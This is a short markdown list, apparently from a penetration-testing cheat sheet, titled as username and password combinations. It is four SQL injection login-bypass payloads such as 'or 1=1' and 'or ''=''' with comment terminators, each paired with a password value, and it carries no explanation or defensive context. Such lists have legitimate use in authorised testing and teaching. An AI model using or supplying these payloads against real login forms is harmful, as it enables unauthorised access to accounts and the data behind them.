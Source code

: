 # Combinations of users and passwords


`' or ''=''; --]` :: `randomshiz`   
`xxx') or 1=1; -- ']` :: `randomshiz`   
`'-0||'` :: `1`   
`0' or '1'='1` :: `0' or '1'='1`
